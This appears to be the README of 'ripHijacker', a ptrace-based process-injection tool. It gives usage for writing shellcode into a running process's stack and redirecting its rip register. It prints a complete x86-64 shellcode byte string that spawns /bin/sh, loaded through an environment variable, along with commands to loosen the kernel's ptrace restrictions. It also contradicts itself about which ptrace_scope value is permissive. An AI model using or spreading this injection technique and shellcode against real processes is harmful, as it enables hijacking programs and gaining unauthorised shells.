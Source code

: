 # ripHijacker
                       
Usage: ./ripHijacker -p <pid> [-e <environment_variable> -n <target_program name>]

-------------------------------------------------------------------------------------------------------------------------

./ripHijacker -p <target_pid>

..allow you to inject an hardcoded "/bin/sh" shellcode into the stack of the target and to overwrite its rip register with the address pointed by its rsp register.
-------------------------------------------------------------------------------------------------------------------------

./ripHijacker -p <target_pid> -e <environment_variable> -n <target program name> 

..allow you to overwrite the register rip of the target with the address of the environment variable (specified with -e option) in the target's stack.
We can load a simple shellcode in an environment variable with the command:

export A=$(python -c "print '\xeb\x1f\x5f\x48\x31\xc0\x50\x48\x89\xe2\x57\x48\x89\xe6\x48\x83\xc0\x3b\x0f\x05\x48\x31\xff\x48\x83\xc0\x7f\x48\x83\xc0\x2d\x0f\x05\xe8\xdc\xff\xff\xff\x2f\x62\x69\x6e\x2f\x73\x68'")
-------------------------------------------------------------------------------------------------------------------------

ripHijacker uses ptrace. "A PTRACE scope of "0" is the more permissive mode.  A scope of "1" limits
PTRACE only to direct child processes", so we can change scope of ptrace with these commands:

sudo vim  /etc/sysctl.d/10-ptrace.conf

..and setting.. 

kernel.yama.ptrace_scope = 1

..after that we must load the new settings with:

sudo sysctl --system -a -p | grep  yama
-------------------------------------------------------------------------------------------------------------------------
Obviously the target program must be compiled with the "-z execstack" option.
-------------------------------------------------------------------------------------------------------------------------
Acknowledgment:

  Vorrei ringraziare Fabio Blacklight ed il suo vecchio ma geniale programma meminj.c che mi ha permesso di venire a 
  conoscenza dell'utilità di ptrace.




